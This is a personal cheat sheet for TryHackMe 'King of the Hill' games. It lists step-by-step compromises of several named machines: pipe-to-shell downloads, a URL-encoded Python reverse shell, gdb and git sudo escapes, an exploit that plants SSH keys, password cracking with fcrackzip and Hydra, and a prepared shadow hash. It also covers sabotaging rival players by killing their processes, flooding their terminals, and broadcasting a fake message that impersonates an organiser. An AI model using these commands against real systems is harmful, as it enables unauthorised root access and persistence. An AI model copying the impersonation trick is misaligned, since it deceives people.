 start up the in-browser machine a few minutes before game starts. It takes time.

# useful commands
find all admin commands:

`find / -perm -u=s -type f 2>/dev/null`

run linPEAS.sh(tool that finds potential privilege escalation points)


`curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh`  
find sudo commands
`sudo -l`
# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  

# machines:
## food:  

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
sudo chmod -xs vim.basic  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


## shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit  
be root  
copypaste these in place of shrek's account in /etc/shadow  
shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::  
you now have shrek:onionshavelayers  
make shrek a sudoer  
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *  
grab the flag if someone else hasn't already  
sudo systemctl stop httpd  
sudo systemctl stop tomcat  
afterwards stuff        




## space jam:  
```
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"  
```
you're king and root  
afterwards stuff  
```
systemctl stop easyaccess  
systemctl stop daemon  
```
change password  
```
killall node(make sure to ssh first)  
chmod /bin/cp 000      
```
???  
profit      

## production:  
navigate to `ftp://anonymous@<ip>:21`  
download id_rsa and the flag, put the flag in  
```
chmod 600 id_rsa
ssh -i id_rsa ashu@<ip>
sudo su skidy
sudo git -p help config
!/bin/sh
```
you have root now, become king
afterwards stuff
```
sudo chmod -sx /usr/lib/git-core/git
```

## Fortune:  
Requires: fcrackzip  
```
nc <BOX_IP> 3333  
```
Returns base 64 hash of a file.    
Go here https://base64.guru/converter/decode/file and get the zip file.  
```
fcrackzip -v -u -D -p <location of rockyou.txt> application.zip  
```
Open the zip with the password you got.  Should contain password for fortune account.  
```
ssh fortuna@<BOX IP>  
sudo pico /etc/sudoers  
```
Replace pico in sudoers file with ALL. (e.g. fortuna    ALL=(ALL:ALL) ALL)  
`sudo su`  
you're root  
stuff to do:   
	change password to fortuna.  
	Remove fortuna from /etc/sudoers and add another user that you have credentials for. 
	
## Lion:
Requires: cve2019-16278.py(file in github), Hydra

```ssh-keygen```

When generating the key, leave the passphrase empty.  This can be done beforehand.
`cat <Your Key Name>.pub` (e.g. cat keygen.pub)

```python2 cve2019-16278.py <KOTH IP> 8080 "mkdir /home/gloria/.ssh; echo '<YOUR *.pub file data>' > /home/gloria/.ssh/authorized_keys"```

Replace <YOUR \*.pub file data> with what you got from the cat.
```
ssh -i sshkey gloria@<KOTH IP> -p 1337
/usr/bin/tmux -S /.dev/session
```
You are Now ROOT

Flag Locations
```
/home/gloria/user.txt	 
/home/marty/user.txt	Reversed
/home/alex/user.txt	Rot13
/root/.flag	 
/opt/code/server.py	 
MySQL: db-> blog, table-> users, id-> 140	 
```
Brute force MYSQL Password with Hydra
```
hydra -l root -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> mysql
```

PATCHING
1. Kill Nostromo, and replace with new server.
2. Apply LFI Patch on port 5555.
3. Patch insecure file upload.
4. Change password, do the usual things.


# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> &   
use social engineering wall  

## social engineering wall:
put this in a message.txt file
`This is Irvin. We accidentally used the wrong machine; so we're going to restart this KoTH with the correct machine in order to ensure all teams get a chance. I'll put the correct link once the new machine gets up and running.`
then do:
`sudo wall message.txt`

## script to stay king:
```
sudo crontab -e
```
when the editor pops up put this in and exit  
`* * * * * echo Happygator > /root/king.txt`



